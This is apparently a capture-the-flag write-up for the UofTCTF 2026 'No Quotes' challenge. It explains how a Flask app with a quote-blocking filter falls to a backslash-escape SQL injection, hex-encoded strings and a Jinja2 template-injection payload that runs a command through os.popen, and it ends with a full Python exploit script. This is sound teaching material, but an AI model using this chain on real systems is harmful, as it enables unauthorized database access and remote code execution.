


## UofTCTF 2026 - No Quotes Write-up



### Step 1: Analyzing the Source Code

The challenge provides a Dockerized Flask application backed by a MariaDB database. The objective is to read the flag from `/root/flag.txt`, which is only readable by the `/readflag` binary.

Upon reviewing the source code, two critical components stand out:

1.  **The WAF:** There is a simple filter that strictly prohibits single (`'`) and double (`"`) quotes.
    ```python
    def waf(value: str) -> bool:
        blacklist = ["'", '"']
        return any(char in value for char in blacklist)
    ```

2.  **The Vulnerable Query:** The login logic uses f-strings to construct the SQL query, making it susceptible to injection, provided we can bypass the quote filter.
    ```python
    query = (
        "SELECT id, username FROM users "
        f"WHERE username = ('{username}') AND password = ('{password}')"
    )
    ```

3.  **The SSTI Sink:** If the login is successful, the application renders the home page by directly formatting the template string with the username from the session. This is a textbook Server-Side Template Injection (SSTI).
    ```python
    return render_template_string(open("templates/home.html").read() % session["user"])
    ```

### Step 2: Exploitation Strategy

Since we cannot use quotes, standard SQL injection techniques won't work immediately. However, we can use the **Backslash Trick**.

1.  **Escaping the Quote:**
    If we send `\` as the username, the query becomes:
    ```sql
    ... WHERE username = ('\') AND password = ('...')
    ```
    The backslash escapes the closing quote of the username field. The database now interprets the first quote of the password field as the closing quote for the username. Effectively, the `username` becomes the string `') AND password = (`.

2.  **Injecting via Password:**
    With the query structure broken, the `password` field is now interpreted as raw SQL. We can use a `UNION SELECT` to forge a fake user.

3.  **Bypassing the WAF with Hex:**
    We need to inject an SSTI payload to run `/readflag`. This payload requires strings (e.g., `os`, `/readflag`), which usually require quotes. To bypass the WAF, we encode our malicious payload into **Hexadecimal**. MySQL interprets `0x...` values as strings.

    *   **Raw Payload:** `{{ request.application.__globals__.__builtins__.__import__('os').popen('/readflag').read() }}`
    *   **Injection:** `) UNION SELECT 1, 0x7B7B... #`

### Step 3: The Exploit Script

I wrote a Python script to automate the hex encoding and the injection.

```python
import requests
import re

URL = "https://no-quotes-bb7586abb9570375.chals.uoftctf.org"
URL = URL.rstrip('/')

def solve():
    print(f"[*] Target URL: {URL}")
    
    # 1. Prepare the SSTI payload to execute the readflag binary
    raw_ssti = "{{ request.application.__globals__.__builtins__.__import__('os').popen('/readflag').read() }}"
    
    # 2. Convert payload to HEX to bypass the WAF (No quotes allowed)
    # "0x" prefix tells MySQL to treat it as a hex string
    hex_ssti = "0x" + raw_ssti.encode('utf-8').hex()
    
    # 3. Construct the Injection
    # username = \  -> Escapes the closing quote in SQL, consuming the query up to the password
    # password = ) UNION SELECT ... -> Closes the parenthesis and injects our payload
    payload_data = {
        "username": "\\",
        "password": f") UNION SELECT 1, {hex_ssti} #"
    }
    
    try:
        s = requests.Session()
        print(f"[*] Sending exploit...")
        
        # Send the malicious login request
        r = s.post(f"{URL}/login", data=payload_data)
        
        # 4. Check the response for the flag
        if r.status_code == 200:
            flag = re.search(r"uoftctf\{.*?\}", r.text)
            if flag:
                print(f"\n[+] FLAG FOUND: {flag.group(0)}")
            else:
                print("\n[-] Exploit sent, but flag not found in response.")
        else:
            print(f"[-] Error: Status code {r.status_code}")
            
    except requests.exceptions.ConnectionError:
        print("\n[!] Connection Error. Check URL.")

if __name__ == "__main__":
    solve()
```

### Step 4: Capturing the Flag

Running the script injects the payload. The database returns our malicious Jinja2 code as the "username", Flask saves it to the session, and the `/home` route renders it, executing the command and revealing the flag.



### Flag
`uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7h3_57R1nG!}`